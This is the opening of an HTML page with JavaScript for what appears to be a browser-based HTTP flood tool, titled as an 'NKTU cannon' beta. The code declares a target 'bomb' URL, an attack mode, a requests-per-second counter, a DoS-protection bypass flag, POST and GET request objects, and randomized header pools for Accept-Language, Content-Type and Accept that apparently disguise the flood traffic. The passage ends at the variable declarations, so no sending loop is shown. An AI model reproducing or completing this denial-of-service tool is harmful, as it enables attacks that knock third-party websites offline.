 
<html>
    <head>
        <meta http-equiv="content-type" charset="UTF-8">
        <meta http-equiv="content-style-type" content="text/css">
        <title>【NKTU】神風真雷NKTU砲・β版</title>

        <script type="text/javascript" src="smoothie.js"></script>
<body style="background-color:red;">
        <script>

        var m_toDoing, m_stBomburl, attackmode, IsUrlVaild, IsPostdataVaild, IsRandH, RandH, IsBypassDos, BypassDos, Nowdate, rps, Nowdate2, i, iwc, wch, wch_url, URL, POSTDATA, MODE, mode, imgurl;
	    var m_inInterval = 0, tln1=0, tln1_url=0, m_inCount = 0, m_inCount = 0;
	    var m_ifFrame = new Array();
	    var method="POST";
	    var method2="GET";
	    var async="true"
	    var xhr = new XMLHttpRequest();
	    var xhr2 = new XMLHttpRequest();
	    var count = "15";
	    var lang = "ja-JP,ja;q=0.9,en-US;q=0.8,en;q=0.7";
        var Langs = ['af,en-US;q=0.8,en;q=0.7','ar-sa,en-US;q=0.8,en;q=0.7','As,en-US;q=0.8,en;q=0.7','az-Latn,en-US;q=0.8,en;q=0.7','be,en-US;q=0.8,en;q=0.7','ca-ES-valencia,en-US;q=0.8,en;q=0.7','de-de,en-US;q=0.8,en;q=0.7','fil-Latn,en-US;q=0.8,en;q=0.7','fr-FR,en-US;q=0.8,en;q=0.7','et,en-US;q=0.8,en;q=0.7','eu,en-US;q=0.8,en;q=0.7','el,en-US;q=0.8,en;q=0.7','es-ES,en-US;q=0.8,en;q=0.7','ja-JP,ja;q=0.9,en-US;q=0.8,en;q=0.7','en-US;q=0.9,en;q=0.8'];
	    var contype = "application/x-www-form-urlencoded";
        var Contypes = ['text/plain','text/html','application/json','application/x-www-form-urlencoded'];
	    var accept = "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7";
        var Accepts = ['text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8','text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8','text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8','text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8','text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8','text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8','text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8','text/html, application/xhtml+xml, image/jxr, */*','text/html, application/xml;q=0.9, application/xhtml+xml, image/png, image/webp, image/jpeg, image/gif, image/x-xbitmap, */*;q=0.1'];
	    var ifmoded = "Thu, 01 Jun 1970 00:00:00 GMT";
        var BDnum = 60
        const randRange = (min, max) => Math.floor(Math.random() * (max - min + 1) + min);
        const my_sleep = (ms) => new Promise(resolve => setTimeout(resolve, ms));

        // ワイルドカード設定
        var randomCards0="*,$,@,+,<,>,!,(,)".split(",");
        var string0="0,1,2,3,4,5,6,7,8,9,a,b,c,d,e,f,g,h,i,j,k,l,m,n,o,p,q,r,s,t,u,v,w,x,y,z,A,B,C,D,E,F,G,H,I,J,K,L,M,N,O,P,Q,R,S,T,U,V,W,X,Y,Z".split(",");
        var string1=new Array();
        var alphabet0=new Array();
        var alphabet1=new Array();
        var alphabet2=new Array();
        var number0=new Array();
        var number1=new Array();
        var number2=new Array();
